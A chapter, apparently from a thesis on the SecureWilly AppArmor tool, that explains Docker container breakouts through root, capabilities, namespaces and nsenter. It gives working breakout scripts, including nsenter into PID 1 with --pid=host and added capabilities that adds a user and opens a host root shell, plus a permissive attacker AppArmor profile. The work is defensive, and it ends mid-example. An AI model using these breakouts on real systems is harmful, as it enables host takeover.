\chapter{Attacks and Vulnerabilities}
Among SecureWilly's goals, it is to achieve isolation between host and container, as well as between containers themselves.
Preserving isolation is an important aspect in maintaining docker's security as a whole, because several attacks can be accomplished, if isolation is violated.

We made an extensive research on the attacks that have a potential to happen, if docker containers are not strongly secured. We pointed out a set of vulnerabilities that could lead to several attacks and within the context of ethical hacking, we implemented specific examples of attacks. Through reverse engineering, we managed to create some rules that SecureWilly adds to the AppArmor profiles it produces, in order to assist isolation. 

\section{Attacks}
Below we can see some types of attacks that can happen from within a container \cite{securityattacks}: 

\begin{itemize}
\item Kernel exploits: Unlike a virtual machine, the kernel is shared among all containers and the host. If a container causes a kernel to panic, it will take down the whole host.
MAC cannot take action into this attack because it does not have the ability to restrict syscalls that would cause this reaction to kernel.

\item Denial-of-service-attacks: Containers share kernel resources, so if one container is able to monopolise the access to certain resources, it can starve out other containers on the host. This results in a denial of - service (DoS). Users are then unable to access part or all of the system.
Cgroups is the responsible security feature for resources, that could limit attacker's way up to it. AppArmor profiles do not have rules that involve cgroups...yet (see Chapter 6, section \textit{Future work}).

\item Container breakouts: Be aware of potential privilege escalation attacks, where a user gains elevated privileges through a bug in application code that must run with extra privileges. While unikelly, breakouts are possible and should be considered  when developing a continuity plan.
We looked into this kind of attack closely and we achieved to protect host and containers from breakouts. The following sections describe how these attacks occur and what SecureWilly is doing to prevent them.

\item Poisoned images: If an attacker can trick you into running their image, the host and data are at risk. In addition, make sure that the images that are running are up to date.
There's not much SecureWilly can do about it. We mainly rely on static analysis to prevent attacks, so if we have only a docker image for dynamic analysis, we cannot know if it has bad intentions.

\item Compromising secrets: When a container accesses a database or service it will require a secret, like an API key or username and password. An attacker that gains access to the secret will also have access to the service.
There are several ways that an attacker can eavesdrop other's secrets. SecureWilly can protect us from one way that an attacker could use. That would be through docker inspect. This is explained in an example in section \textit{Access to Docker Daemon}.

\end{itemize}

We will focus on container breakout attacks, as they are the most relevant to container isolation and they can be prevented by AppArmor profiles.

In SecureWilly's development we relied on reverse engineering to extract rules that would defend host from container breakouts and achieve isolation. We implemented several attacks and investigated the least privileges needed in order to commit the attacks. We then used those rules in our static analysis, in order to deny some privileges to the attacker and prevent him from completing the attack.

The following sections, describe the types of the attacks mentioned and shows the solution that our system provides through examples of each attack.

\section{Container Breakouts}
\subsection{Violating Isolation}
Breaking out from the container is definitely a crucial attack to isolation, as the attacker escapes from the given environment and gains access to host or even to other containers.

Getting to host from within a container or gaining access to another container is not always a malicious attack but it is in fact sometimes intended. For instance, when we want to use host's debugging tools in our container, it is usual to get into host's filesystem and use them directly.
However, the approach that our system adopts demands to fight any kind of validating isolation, so if breaking out is intended, either find another way around to avoid breaking out or do not use SecureWilly. SecureWilly will deny any container breakouts, even if it is done intentionally.

\subsection{Vulnerable Features}
In the context of ethical hacking, we made a research on the vulnerable features and weaknesses of docker containers that could lead to a container breakout and created a set of attacking examples, in order to assess the security posture of docker and make SecureWilly aware of the existing threats.
There are several tools, commands and tricks to escape docker container. Below we can see a subset of them \cite{onentryattacks}: 

\begin{enumerate}
\item Running as root
\item Kernel Capabilities
\item Disabling Namespaces
\item Nsenter tool
\item Access to Docker Daemon
\end{enumerate}

In the next sections, we discuss each of them in depth.

\section{Running as root}
\subsection{Container's process on host}
First of all, let it be clear that a process running in a container is the same as a process running on host. What makes it different is a small piece of metadata that declares that it's in a container. \cite{runningroot}

Containers are not trust boundaries, so therefore, anything running in a container should be treated with the same consideration, as anything running on the host itself.
If running as root on your server is not a best practice, for the same reasons you shouldn't run anything as root in a container on your server.
\subsection{Why root?}
There are limited reasons that root is actually needed in a system. Some of them would be the following:
\begin{itemize}
\item Modifying the host: This is by default not required, since application containers are not meant to modify kernel's host. 

\item For a start: A lot of processes start as root and then drop privileges as quickly as possible. A common example of this situation is binding to ports below 1024. Web services for instance, most often use port 80 for web servers to listen. This means containers start as root and bind to host 80 and then become non-root. However, this does not constitute a problem, as port forwarding exists to solve this by binding container to any network port and map this port to the host's port \textless 1024 needed, at runtime either with -p flag at docker run or inside docker-compose.

\item Installing software into a container image: Most of the software packages expect to be installed by users who have root privileges in order to make necessary actions (manipulate the /etc/passwd file by adding users, put down content on the file system with different UID/GIDs etc). At the moment, the only existing solution to this, is to install packages at the build phase through Dockerfile. Again, we need to have root privileges at the beginning but after the installation command we can drop privileges and become non-root user by using USER command, before our container is up.
A suggested approach for Docker in the future, would be to separate the build systems from the installing systems. 
\end{itemize}

In general, even if we are facing one of the situations above, there are suggestions to work around with and not use root inside a container. Using root is definitely discouraged and even Docker docs recommend to use USER command in Dockerfile as a best practice.\cite{dockerbestpractices} 

\subsection{Container's root vs Host's root}
Is container's root the same as host's root?
If User Namespaces are not enabled, the answer is yes.

Let's start a simple container running as root, executing the top command:

\begin{lstlisting}[style=dockercommands]
$ docker run --rm -it ubuntu:latest top
\end{lstlisting}

On host, run the following command to list all the processes with keyword top:
\begin{lstlisting}[style=terminal, basicstyle={\fontsize{10}{11}\color{black}\ttfamily}]
$ ps -ef | grep top
ubuntu    5761  5760  0 18:51 pts/0    00:00:00 docker run --rm -it ubuntu:latest %top%
root      5802  5786  0 18:51 pts/4    00:00:00 %top%
ubuntu    5834  5714  0 18:52 pts/3    00:00:00 grep --color=auto %top%
\end{lstlisting}

As you can see from the output, the user that runs top is root. This is the exact same root as host's, even though it is the container's process which runs top.

\subsection{What can an attacker do with root user?}
Attackers who run as root in a container can make use of root's ability to commit privileged actions, in order to attack host. 

A very simple example to attack host by running a container as root is the following: 

Suppose a user in host who does not have root privileges. A standard user - who does not belong is sudoers group - does not have write access to /etc/ directory, as you can see below:

\begin{lstlisting}[style=terminal]
$ touch /etc/hello
touch: cannot touch '/etc/hello': Permission denied
\end{lstlisting}

Now, let's start a container running as root which will repeat the same action. The Dockerfile to build the image of this container is given below:

\begin{lstlisting}[style=Dockerfile, caption={Dockerfile used for root\_attack image}]
FROM ubuntu:latest
MAINTAINER Fani Dimou <fani.dimou92@gmail.com>
#Copy the attacking script into the container
COPY 3_attack.sh .
ENTRYPOINT /bin/bash
\end{lstlisting}

In order to make the attack work, host's directory /etc has to be mounted to the container. The attacker runs the following commands to start the container:

\begin{lstlisting}[style=terminal]
$ docker build . -t root_attack
$ docker run --rm -it -v /etc:/etc root_attack
\end{lstlisting}

As seen in the Dockerfile, the attacker copies his attacking script inside the container. So when the container is up he just has to execute the following script:

\begin{lstlisting}[style=shellscript, caption={3\_attack.sh}]
#!/bin/sh

echo "====== touch /etc/HelloFromTheOtherSide ======"
touch /etc/HelloFromTheOtherSide
\end{lstlisting}

The container now can be stopped and we may see the attack's results by listing contents of directory /etc on host:

\begin{lstlisting}[style=terminal]
$ ls -l /etc | grep Hello
-rw-r--r-- 1 root root       0 Jan 26 19:04 %Hello%FromTheOtherSide
\end{lstlisting}

The owner of the new file is root, even though the container was run by a standard, non-root user who did not have the permission to create a file in /etc directory.
Running as root, gave a non-root user the ability to commit privileged actions against the host, which he could not fulfil without docker client. 

\subsection{User Namespaces}
\subsubsection{How User Namespaces work}
One may well wonder whether the user namespaces will protect host's root from such attacks.

Namespaces in Linux, are a feaure that partitions kernel resources and provide resource isolation. Changes to the global resource are visible to other processes that are members of the namespace, but are invisible to other processes. There are seven types of namespaces: mount (mnt), process id (pid), network (net), interprocess communication (ipc), UTS, user id (user), control group (cgroup).

User namespaces, as mentioned in man page, isolate security-related identifiers and attributes, in particular, user IDs and group IDs, the root directory, keys, and capabilities. A process's user and group IDs can be different inside and outside a user namespace. 
What Docker does, is a mapping between UIDs and GIDs inside the container to other's outside the container. A user namespace contains a mapping table converting UIDs from the container's point of view to the system's point of view. For example, if a user has UID 0 in the container, is treated as root. However, due to user namespace, outside the container the same user is actually treated as UID 5000 by the system for ownership checks. A similar table is used for GID mappings and ownership checks.

This type of namespaces targets to container breakouts and restricts a privileged process to not being privileged anymore if it manages to get outside of the container.

\subsubsection{Enable User Namespaces in Docker}
In Docker, user namespaces are not enabled by default. We need to manually ask the docker deamon for a user namespace remapping and then restart docker.

Below we explain the commands used to enable user namespaces, working on Ubuntu 15.10 \cite{raesene_userns} : 

\begin{lstlisting}[style=bashscript, caption={Script to enable user namespaces}]
#!/bin/bash

#We copy docker.service, since in /lib/systemd/system it could be overwritten by later package downloads
sudo cp /lib/systemd/system/docker.service /etc/systemd/system/
#Ask docker to remap the userns. This can be done to an explicitly chosen uid:gid, but the basic default option will probably work fine for a lot of use-cases.
#Add flag --userns-remap=default to ExecStart in docker.service
sudo sed -i '/ExecStart/ s/-H fd/--userns-remap=default -H fd/' /etc/systemd/system/docker.service
#Restart docker. If you do not have systemctl, use the service command.
sudo systemctl daemon-reload
sudo systemctl restart docker #Or: sudo service docker restart
\end{lstlisting}

After we complete the steps above, if we check /etc/subuid and /etc/subgid files we shall see a new user called dockremap and the range of UIDs/GIDs given to him.

\subsubsection{Shortcomings}
When enabled, user namespaces will indeed protect host's root from the container and is definitely a handy feature to be running.

However, as it is something \say{new} added to docker, there are some problems with the lack of filesystem support. One known side-effect is that as soon as userns-remap is used, all images will be cleared. This is happening because of the file ownership within the image layers. If the existing layers were used after the remapping of user and group ids, the containers would encounter a read-only environment and the new UIDs/GIDs would have no write access to most directories or not even read access to many of them, as well, due to the permission bits in the original content. Therefore, Docker chooses to make a fresh start with an empty cache after a remapping of UIDs/GIDs. If docker deamon is restarted, all prior content will be there. Comparing to the benefits gaining from user namespaces, this side effect is insignificant, but it could cause much trouble to a docker user.

Although user namespaces could prove themselves to be highly beneficial for containers security, it is a fact that we cannot rely exclusively on them for host's protection. Using user namespaces as the only measure of security, could lead to exteme risks.

First of all, we shall always have in mind as a potential risk that some piece of kernel code might not be refactored to account for distinct user namespaces. That could lead in harming host's environment.

Moreover, user namespaces are in a way a namespacing of capabilities and rather than being subtractive as we would like them to be, actually grant non-root users increased access to system capabilities. This is happening because kernel grants initial process in new user namespace a full set of capabilities, which are only for operations on objects governed by the new user namespace. Yet, giving an unprivileged user full capabilities in a child user namespace - docker container - is a risk, as it is possible to achieve doing some privileged operations in outer namespace - host - as we explain in section \textit{Kernel Capabilities}. \cite{usernsnotsosecure}

It is of great importance for containers' security to merge user namespaces with other types of namespaces and other security features such as dropping capabilities.

Let's take a look at the following diagram of namespaces: \cite{diagramuserns}

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.9\linewidth]{../figures/userns1gm.png}
   \caption{Namespaces Diagram}
\end{figure}

In the system represented in the diagram, there are three initial namespaces (user, network, UTS), one child of the initial user namespace and a second UTS namespace which is owned by the child user namespace.

Suppose that process X tries to change host name. Host name belongs to UTS namespace handling objects and changing it requires capability SYS\_ADMIN. Process X is a member of the second UTS namespace which is owned by child user namespace where our process has UID 0, which means it's root and has capability SYS\_ADMIN inside this namespace. Therefore, it is able to complete this action.

Now, suppose that process X tries to bind to reserved socket port. Binding to ports belongs to network namespace handling objects and binding to reserved socket port requires capability NET\_BIND\_SERVICE. Process X is a member of the initial network namespace but that network namespace is owned by the initial user namespace and not by the user namespace of which process X is a member. This means initial network namespace treats process X as a non-privileged user with UID 1000 and therefore process X does not have capability NET\_BIND\_SERVICE inside this namespace.

If we think of process X as an attacker and its actions as container breakouts, then user namespaces alone could not protect us from him. In this example, what hosts needs in order to be secure from the attacker in alignment with user namespaces is to enable UTS and network namespaces and drop container's capabilities. In Docker, UTS and network namespaces are enabled by default, so what we mean by enabling them is not to use flags as --net=host and --uts=host, which disable the creation of new network and uts namespaces for the container. 

\subsection{To Root or Not to Root}
All in all, user namespaces is a beneficial feature to use, but on its own is not enough to protect host, thus \textbf{it is still wise not to use root in containers}. If you really have to give root to a container, then consider about customizing a non-root user, to \textbf{look like root, using user namespaces or adding kernel capabilities} (see next section). If this is not working for you, then make sure that you \textbf{use other security tools, as an extra security wall}, to secure your container, 

\begin{mdframed}[backgroundcolor=navajowhite]
When using images from DockerHub or when using FROM command in Dockerfile to provide your container a base image, consider that you may inherit the running as root from this image so you have to make sure you create a new image and change to non-root by using \textbf{USER command in Dockerfile}.

Another solution would be parsing a non-root user of host to the container at runtime either with \textbf{flag -u} or inside docker-compose. That would result in exactly the same solution as creating a new user inside the Dockerfile. Just make sure that the host's user that you will be parsing, does not have any special privileges by taking a look at the groups he belongs.
\end{mdframed}

\section{Kernel Capabilities}
\subsection{What are Kernel Capabilities?}
In Linux, root's special powers have been split into individual capabilities and the actions normally reserved for root are broken down into smaller portions. Capabilities system was designed to help remove the problems associated with the need for root privileges. An application could demand more privileges but that does not mean it exclusively needs root to run it. All we have to do is give the specific capability needed for a task to the user. 
A standard user could easily elevate to root by adding capabilities, and as we discussed before being root in a container should be avoided.

\subsection{Adding capabilities to a docker container}
In Docker, a container can be run with specific privileges by using --cap-add flag, which adds the specified capability or drop a capability similarly, by using the flag --cap-drop. By default, Docker drops all capabilities except for a specific set of capabilities, as we mentioned in Chapter 3, subsection \textit{Docker Compose}.
 
Apart from adding capabilities one by one with flag --cap-add, Docker provides us with a feature called privileged, which, among others, adds all the linux capabilities that Docker supports. 
As mentioned in Docker Docs, \say{the --privileged flag gives all capabilities to the container, and it also lifts all the limitations enforced by the device cgroup controller}. In other words, the container can then do almost everything that the host can do.

The more capabilities a container has, the more privileged it gets. 
Therefore, either by adding crucial capabilities or by using privileged feature to a container, escalation to root is on the horizon.

Not all of the capabilities, are dangerous though. There are some capabilities which are indeed more \say{innocent} than others. Frankly, if a container grants capability SYS\_TIME, which makes it capable to set system clock, it does not constitute a threat in any way.

\subsection{Crucial capabilities}
So which are the crucial capabilities and how could a kernel capability lead to container breakout?
Below, we can see some “dangerous” capabilities that give a container great privileges and if no other security measures are taken they could result in a container breakout.

\begin{description}[style=nextline]
\item[SYS\_ADMIN]
In capabilities man page the first note about this capability is that it is overloaded. Thus, the problem starts from kernel developers, since SYS\_ADMIN grants power that should have better been divided to more capabilities. Briefly, capability SYS\_ADMIN allows performing a range of system administration and privileged operations. Giving a process SYS\_ADMIN capability allows a user to administer a machine and is pretty close to removing all isolation.

\item[SETUID \& SETGID]
We merged these capabilities in the same paragraph because every example and every attack we encountered needed both of them, as they are highly associated. Their use as mentioned in man page is to make arbitrary manipulations of process UIDs/GIDs and supplementary GID list for setgid, forge UID/GID when passing socket credentials via UNIX domain sockets as well as write a user/group ID mapping in a user namespace.

Having these capabilities means you can interact with processes of other UID/GID's by simply making your UID/GID the same as theirs.
One obvious attack is the ability to change the UID to 0, where UID=0 is root. If we forget about user namespaces, this means we are in serious danger of exposing host's root. This attack cannot stand on its own, but combined with other privileges it is possible enough to happen. 

\item[SYS\_CHROOT]
This capability allows use of chroot(). In other words, it allows processes to chroot into a different rootfs. This capability could prove itself extremely risky if an attacker manages to sneak into host's filesystem and execute chroot into it.

\item[SYS\_PTRACE]
Among others SYS\_PTRACE is used to trace arbitrary processes using ptrace(2). This means that as soon as we have a pid, this capability gives us the opportunity to learn information about the process specified by that pid.

Suppose we know pids of processes outside our container, is it possible for a container to learn information for processes outside its pid namespace? Having in mind that docker inspect uses ptrace to look into containers, a container that has ptrace under the right circumstances could gain information about other containers and host and maybe even extract passwords or other secrets that they shouldn't know.

\item[DAC\_OVERRIDE]
Quoting capabilities man page, \say{DAC\_OVERRIDE allows root to bypass file read, write, and execute permission checks (DAC is an abbreviation of discretionary access control)}.
This means that a container which has this capability could bypass all file and owner permission fields and have any access it desires on any file on the system. Obviously, this destroys almost everything that the static analysis of SecureWilly is working on, as the DAC permissions of files it used to extract file rules are overwritten. 

On the other hand, we should be optimistic and think that a container asks for DAC\_OVERRIDE for a good reason, such as fixing bad permissions in the file system.
But, we should always bare in mind DAC\_OVERRIDE's evil side and as Steve Grubb, security standards expert at Red Hat, said \say{If your container needs this, it's probably doing something horrible}.

A similar capability which gives only read access that has to be taken into consideration is DAC\_READ\_SEARCH.
\end{description}

These capabilities are only a subset of the most obvious capabilities that could lead to an attack. Almost every capability could be proven dangerous, if an attacker uses it with bad intentions. 

\subsection{Use capabilities in caution}
In this section, we do not provide any example attacks, as all of the capabilities mentioned are used maliciously by attackers in every example we present in the following sections.

All in all, although a widespread use of \textbf{kernel capabilities} could reduce the amount of vulnerabilities that cause complete root access, they \textbf{should be added mindfully} otherwise they could lead to dangerous paths. 
Flag privileged which adds all capabilities is definitely discouraged to be used, if not specifically needed. Even smart admins can make bad decisions, and using Docker's privileged feature if they need only a subset of capabilities would be a very bad decision.

\section{Disabling Namespaces}
\subsection{Linux Namespaces in docker containers}
Linux Namespaces, are a feaure that partitions kernel resources and provide resource isolation, like we mentioned in section \textit{Running as root: User Namespaces}.  The purpose of namespaces, as given in namespaces man page, is to wrap a particular global system resource in an abstraction that makes it appear to the processes within the namespace that they have their own isolated instance of the global resource. One of the overall goals of namespaces is to support the implementation of containers. 
Currently, Linux implements seven different types of namespaces: mount (mnt), process id (pid), network (net), interprocess communication (ipc), UTS, user id (user), control group (cgroup).

Docker uses namespaces and most of them are by default enabled. Only user namespaces as we mentioned in section \textit{Running as root: User Namespaces} are disabled, but we showed how we can enable them manually.

\subsection{Runtime flags to disable namespaces}
Docker provides us with some flags that disable some of the container namespaces and allow a container to run within host's namespace or within another chosen namespace. These flags are the following:

\begin{description}[style=nextline]
\item[--pid=host:]
Disables pid namespace and opens up host's pid namespace to the container. A container that is run with this flag, can see all processes running in host and if it combines it with mounting docker.sock or other vulnerabilities then it can inspect any container running on host. Moreover, being in host's pid namespace means that an attacker can enter host or any other container he knows the pid and execute commands, as we will see in section \textit{Nsenter tool}.

\item[--net=host:]
This flag makes host's network namespace visible to the container. This means that an attacker can become fully aware of what happens in host's networking and make use of host's network resources such as listening to ports where other containers are binded.

\item[--uts=host:]
Being inside host's UTS namespace is not as dangerous as being inside other types of namespaces. UTS controls the hostname and domain information a process can see. One possible attack that could be made using this flag, is changing host's domain information like hostname from inside a container.

\item[--ipc=host:]
By using this flag, a container gets to live in host's ipc namespace. IPC, which stands for Interprocess Communications, manipulates within its namespace certain IPC resources, namely, System V IPC objects and POSIX message queues. If host's IPC namespace is exposed, an attacker can make use of host's ipc resources.

\item[--userns=host:]
User Namespaces, which were discussed in section \textit{Running as root: User Namespaces}, can be disabled with this flag. As soon as user namespaces are disabled, host's root is at great risk of being exposed which could lead to severe attacks since being root means having full control of a machine.
\end{description}

\subsection{Disabling Mount Namespace}

You may noticed that mount namespace is not included in the runtime flags we described above. Fortunately, there is no such a flag for mount namespace which controls the set of file systems and mounts a process can see. This means, a user who runs docker cannot use such a flag and directly enter host's mount namespace. However, if some of the flags above are used, an attacker can easily break his way into host's mount namespace too as we will see in the following examples.

There are still other techniques provided in order to share host's mount namespace and that would be mounting host's filesystems to the container.
\subsubsection{Mounting host's filesystem}
The most usual way to enter host's mount namespace is through sharing host's filesystem by mounting directories in runtime.
Mounting host's filesystems could be implemented with bind mounts, volumes and tmpfs mounts. Knowingly, we omit the tmpfs mounts because they could not constitute a severe measure for an attack as they are temporary, and only persisted in the host memory. When the container stops, the tmpfs mount is removed, and files written there won't be persisted. \cite{dockerdocsmount} 

On the other hand, bind mounts and volumes let you share files between the host machine and container so that you can persist data even after the container is stopped and this is what an attacker is aiming for.

Both of these features create a mount from host to container for persistent data. The difference between them lays to where the container directory of the volume is created. In bind mounts the mounted directory is exactly where you indicate in the binding whereas in volumes the directory is created under /var/lib/docker/volumes (either they are named volumes which have a certain name and can be referenced to by only their name or they are volumes in dockerfile which don't have a certain name and their \say{name} is just some kind of hash).

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.6\linewidth]{../figures/omittmpfsgm.png}
   \caption{Persistent data mounting: Bind Mounts and Volumes}
\end{figure}

Our approach, will be handling both of these types the same way and we will refer to both of them as mounted volumes. It is a fact though, that bind mounts are more preferable to attackers, as they can commit an attack and leave no trace of it behind. Conversely, non malicious users are recommended to use named volumes for mounting host's directories.

Docker is aware of attacker's preference on bind mounts and has taken some measures to support host. When you bind mount, host's directory is always mounted to container's directory with root's uid/gid. On the condition that a container is run by non-root user as it should, the volume is supposed to be readonly. This is because docker's current preference is to not modify host things which are not within Docker's own control. Chowning the volume inside the Dockerfile will not change its uid/gid - neither will chmod - and chowning inside the container will not be permitted as it requires root privileges. The only escape to this, is to run the container as root - which is not advisable - and then you are the owner of the directory and have every permission on it.

Mounting volumes allows a specified mounting of host's filesystem into the container. This means that mount namespace can be shared up to a specific point depending on the height of the mounted directory's node in host's filesystem tree.
There can be minimal share of host's mount namespace resources or large scale sharing like the following examples:

\begin{itemize}
\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /dev:/dev
\end{lstlisting}
This command lets host's mount namespace open up only for /dev/ directory where the device nodes of the host are.

\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /run:/run
\end{lstlisting}
This mounting has a significant impact in several ways, as many services of the host are provided to the container. For example, the container will be able to listen to docker.sock and thus, it will be able to run docker client - more on this is described in section \textit{Access to Docker Daemon}. It could also allow a container process to communicate with systemd (a software suite that provides fundamental building blocks for a Linux operating system) which also runs in /run directory as many other services.

\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /:/host
\end{lstlisting}
Little left to discuss in this example, as it shares the entire host's filesystem into the container. This is exactly the type of mountings that should be avoided, as it makes docker processes completely useless and isolation is totally violated.
\end{itemize}

\subsection{Respect Namespaces}
These features destroy every wall that isolates host from the container and makes it very easy for an attacker to commit an attack to host. These flags are discouraged to be used if not needed and so are the extended mountings on host. Namespaces exist to protect you and it is mindful to respect their boundaries. If all of these flags are used, then you have already lost. There is not even a reason to run docker, it's as if running a program on host. If some of them must be used, you should combine them with other security measures. 

There is not much SecureWilly can do if you open up your namespaces to a malicious container. 

\section{Nsenter tool}
\subsection{What is Nsenter tool?}
Nsenter is the perfect tool to use to commit an attack by breaking into other processes' namespaces. The nsenter tool is part of the util-linux package since version 2.23. It provides access to the namespace of another process. Nsenter requires root privileges to work properly and this is another reason why we should not run containers as root. All you need to have in order to work with nsenter is the pid of the target process and then you can execute any command inside their namespaces. 
What makes nsenter even more unsafe is that it does not drop capabilities. This means that the shell started by nsenter can do more harm potentially than a normal process running within the container, only by having the right capabilities added.

\subsection{Installation}
As nsenter ships only after util-linux version 2.23, if your package of util-linux is 2.20 or previous version (happens in Ubuntu 14.04), you can install it by using the “trick” described below \cite{nsentertrick} :

Run a docker container on host:
\begin{lstlisting}[style=dockercommands]
$ docker run --name nsenter -it ubuntu:14.04 bash
\end{lstlisting}

Inside the docker container run the script given below:
\begin{lstlisting}[style=bashscript, caption={Script to run inside docker container nsenter}]
#!/bin/bash

apt-get update
apt-get install git build-essential libncurses5-dev libslang2-dev gettext zlib1g-dev libselinux1-dev debhelper lsb-release pkg-config po-debconf autoconf automake autopoint libtool
git clone git://git.kernel.org/pub/scm/utils/util-linux/util-linux.git util-linux
cd util-linux/
sudo apt-get install bison
./autogen.sh
./configure --without-python --disable-all-programs --enable-nsenter
make
\end{lstlisting}

Open a new terminal on host while the container is still up and run the following commands on host:

\begin{lstlisting}[style=terminal]
$ sudo docker cp nsenter:/util-linux/nsenter /usr/local/bin/
$ sudo docker cp nsenter:/util-linux/bash-completion/nsenter /etc/bash_completion.d/nsenter
\end{lstlisting}

Now you can stop docker container and nsenter should be installed and ready to use.

\subsection{Using nsenter tool}
There are multiple ways for an attacker to use nsenter, in order to commit an attack. In the following examples we can see some minimal attacks that could be used as a base for a deeper attack.

The use cases we will look into are two: Breaking out to host and breaking out to another container. An attacker will commit the same attacks to both of them: ls root's directory, touch a file in root's directory, create a new user, create a shell in target's mount namespace.
The Principle of Least privilege was taken into account and it is certain that every container was run with the least privileges needed to commit each attack, including minimum number of capabilities added and minimum number of types of namespaces disabled.
Moreover, we reversed the logic of SecureWilly and we created AppArmor profiles for attacker's containers, again respecting the Principle of Least privilege and adding only the necessary rules that would let us bypass container's isolation. 

To begin with, an attacker can attach to a target process only with a small subset of privileges and a way into host's pid namespace. In both of the use cases, we run a container as root using host's pid namespace by adding --pid=host flag and add capability SYS\_ADMIN.

\begin{itemize}
\item The \textbf{--pid=host} flag opens up host's pid namespace to attacker's container, in order to make it possible for it to see the processes running on host and choose one of them as target.
\item Nsenter requires \textbf{capability SYS\_ADMIN} as the least possible root privileges in order to work. That happens because any namespace changes require admin privileges and nsenter uses setns system call.
\end{itemize}

These are the common features used for the two use cases. The rest of the rules differ depending on the target process, so we will explain the rest in the corresponding examples.

\subsubsection{Breakout to host}
In this example, the attacker tries to execute some commands on host. These commands escalate from simple actions to privileged actions.
A debian image is used as a base for the docker containers and the attacker runs the following script to start the containers:

\begin{lstlisting}[style=shellscript, caption={run\_privileged\_actions.sh}]
#!/bin/sh

#Load profile to apparmor
sudo cp attacker_profile /etc/apparmor.d
sudo apparmor_parser -r -W /etc/apparmor.d/attacker_profile

#List contents of host's root directory
echo "====== ls / ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m ls /

#Touch a new file in host's root directory
echo "====== touch HelloFromTheOtherSide ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m touch HelloFromTheOtherSide

#Add a new user on host
echo "====== useradd hacked ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m /usr/sbin/useradd hacked

#Create a shell in host
echo "====== /bin/bash ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m /bin/bash 
\end{lstlisting}

The goal of our attack is escalating from gaining read access, to write access and lastly, having full access in host's filesystem. This is performed by using nsenter, targeting the mount namespace of the process with pid 1.

The process that receives PID 1, popularly termed the init process, is the first process that is started at boot time. The init process is the ancestor of all other processes and what makes it special for an attacker is that if this process dies for any reason, all other processes are killed with KILL signal and the kernel enters into a panic mode, after which you cannot do anything else, except rebooting. This characteristic constitutes init process a good target in order to take control of host.

The attacker runs the docker containers as root, thus he already has all of the file permissions needed for each command.

Except for the SYS\_ADMIN capability, when attempting to nsenter to specifically the init process, \textbf{capability SYS\_PTRACE} is required too. This derives from strace system call which is used to trace the signals due to the fact that PID 1 does not automatically get default signal handers, as other processes do.

Lastly, the namespace the attacker needs to enter in order to commit the attack is the mount namespace as it is the one handling the set of file systems a process can see and all of our examples implement attacks to target's filesystem. Thus, we add flag -m, which is the same as flag --mount that we will encounter in the next example.

All of those actions are allowed to happen owning to the following AppArmor profile:
\hfill\break
\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile attacker\_profile}]
#include <tunables/global>

profile attacker_profile flags=(attach_disconnected,mediate_deleted) {
        file, 

        #Allow attack to Host
        capability sys_admin,
        capability sys_ptrace,
        capability sys_chroot,
        ptrace (read,trace),
}
\end{lstlisting}

The first rule of the profile, file rule, allows handling container's filesystem.

There are also some capability rules, which allow the use of capabilities SYS\_ADMIN, SYS\_PTRACE and SYS\_CHROOT. The first two capabilities were specifically requested in docker run command and the purpose of both of them is explained previously. \textbf{Capability SYS\_CHROOT} is not asked to be added in the docker run command, as it is included in the default set of capabilities that docker grants to every container, but is not allowed until AppArmor allows it with the corresponding rule. This capability is required because of the chroot system call that takes place after the setns system call. Nsenter requires chroot system call in order to succeed in entering host's mount namespace. The exact reason that chroot is needed is for nsenter to modify the pathname lookup for the container process after the change of mount namespace so that any reference to a path starting '/' will effectively have the new root and thus, the filesystem that the process will see from now on. 

The last rule is \textbf{ptrace (read,trace)} which allows the ptrace operations with read and trace permissions, so that it can find the target process.
\\
\\
Let's execute the script and see the output:
\begin{lstlisting}[style=terminal]
$ ./run_privileged_actions.sh 
====== ls / ======
HostRootDirIsHere  etc               lib         mnt   run   tmp      vmlinuz.old
bin                 home             lib64       opt   sbin  usr
boot                initrd.img       lost+found  proc  srv   var
dev                 initrd.img.old   media       root  sys   vmlinuz  
====== touch HelloFromTheOtherSide ======
====== useradd hacked ======
useradd: failure while writing changes to /etc/shadow
====== /bin/bash ======
root@c78a017a1455:/# ls | grep Hello
%Hello%FromTheOtherSide
root@c78a017a1455:/# ls -l HelloFromTheOtherSide 
-rw-r--r-- 1 root root 0 Jan 30 23:04 HelloFromTheOtherSide
root@c78a017a1455:/# cut -d: -f1 /etc/passwd | grep hacked
%hacked%
\end{lstlisting}

The attacker completed the attack with success. He achieved listing host's root directory contents, touched a new file and added a new user called hacked - /etc/shadow is the file where passwords are stored in encrypted format, we don't mind if it fails for some reason as we did not take any precautions over the password and the user was created anyway. The bash shell was created and the attacker detected the file he touched before, found the user hacked among host's users and is free to commit any attack inside host's mount namespace.

\subsubsection{Breakout to another container}

If the attacker is capable to sneak into host then it is a matter of time before he sneaks into other containers. Breaking out to other containers in the following example is achieved by using nsenter to other host's processes' mount namespace which is a lot easier than entering the init process namespaces.

First, we have to run a container that is going to form the attacker's target.
